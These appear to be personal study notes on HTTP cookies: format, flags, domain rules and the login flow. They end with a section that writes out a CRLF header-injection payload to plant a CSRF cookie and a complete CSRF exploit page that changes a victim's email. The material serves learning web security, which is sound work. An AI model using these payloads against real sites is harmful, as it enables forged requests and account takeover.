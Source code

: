 
### General Notes

> Created to make [[HTTP]] [[Protocol]] stateful.
> They are textual information installed by a website into the Cookie Jar of the **browser**.
> Cookie Jar is storage space where web browser stores cookies.
> Storing data on the client side instead of the server side ([[Sessions]]).

> Can be viewed in JavaScript using `document.cookie`

---

### Cookie Format

> Server can set cookie via the `Set-Cookie` HTTP header in a response message
> Cookies contain the following data:
* Cookie Content: Text Key-Value pairs that contain data
* Expiration Date
* Path: sends the cookies to all subsequent requests to this path and everything under it.
* Domain
* `HTTPOnly` Flag: only HTML technology can read the cookie. Secure against [[Cross Site Scripting (XSS)]].
* `Secure` Flag: Cookies are only sent over [[HTTPS]]

##### Cookie Policy

> Cookies are sent to the valid domain and path and only when they are not expired and according to the flags. They are also sent to the subdomains of that domain.
> Path specifies the folder that the cookie is sent to in the domain. If the path is empty, it is sent to the whole damin.
> If domain is not set, the `Host-only` flag is set, and cookie is only sent to the exact hostname of the request. The domain becomes set to the hostname.

---

### Cookie Protocol

> Login Example: 
1. Browser sends a POST request with username and password
2. Server sends a response with a `set-cookie` header to tell the browser to install the cookie
3. For every further request, the browser considers the cookie data and flags
4. If the checks pass, then a cookie will be inserted in the header of the browser request

> What this does, is that the browser now manages to maintain a stateful connection to the server, meaning that all subsequent requests dont need authentication again.

---

### Cookie Domain

> A cookie with a domain value specified is only sent to the target with the same domain value.
> A cookie with a domain value different from the target but is a suffix of the target domain then it is also sent.

> Higher level subdomains cannot set cookies for lower level subdomains.
> Lower level subdomains can set cookies for higher level subdomains.

> Cookie with `host-only` flag set to true is one that does not have a domain value. Sent only to target domain that set it.

---

### Modifying Cookies for [[CSRF]]

>A technique to check for adding cookies is through header injection.
```
/?search=mins
Set-Cookie: csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p;
```
> Adding a new line then adding the `Set-Cookie` header with the cookie. To use it, it must be URL-encoded. [[Web Encoding]].
```
/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b
```

> To use it in the HTML payload to set a cookie, replace the `script` tags with:
```HTML
<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b%20SameSite=None" onerror="document.forms[0].submit()">
```
> This loads the page that sets the cookie, then since it isnt an image, the `onerror` attribute is fired submitting the form.

``` HTML
<html> 
	<body> 
		<form action="https://URL/path" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="<csrf-token>" />
		</form> 
		<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b%20SameSite=None" onerror="document.forms[0].submit()">
	</body> 
</html>
```

---
